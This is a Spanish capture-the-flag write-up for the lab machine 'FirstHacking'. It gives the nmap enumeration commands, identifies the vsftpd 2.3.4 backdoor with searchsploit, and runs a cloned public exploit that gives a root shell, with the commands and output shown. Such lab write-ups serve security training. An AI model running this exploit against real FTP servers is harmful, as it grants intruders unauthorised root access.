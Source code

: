 # FirstHacking

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Como tenemos abierto el puerto 21, vamos a comprobar las versiones y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p21 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p21`: Escaneo de los puertos 21 (FTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
  PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix
```
Vemos que la versión de ftp es vsftpd 2.3.4, comprobamos en searchsploit si es vulnerable y vemos que si hay exploits que podríamos utilizar.
```bash
❯ searchsploit vsftpd 2.3.4
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                                                                                    | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                                                       | unix/remote/17491.rb
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
## Explotación.

En este caso yo voy a utilizar un exploit que encontramos en [GITHUB](https://github.com/Hellsender01/vsftpd_2.3.4_Exploit). Seguimos las instrucción que nos indican en la página y nos crea una reverse shell como usuario root de la máquina.

```bash
sudo python3 -m pip install pwntools
git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git
cd vsftpd_2.3.4_Exploit/
chmod +x exploit.py
```
```bash
python3 exploit.py 172.17.0.2
```
```bash
❯ python3 exploit.py 172.17.0.2
[+] Got Shell!!!
[+] Opening connection to 172.17.0.2 on port 21: Done
[*] Closed connection to 172.17.0.2 port 21
[+] Opening connection to 172.17.0.2 on port 6200: Done
[*] Switching to interactive mode
$ whoami
root
```


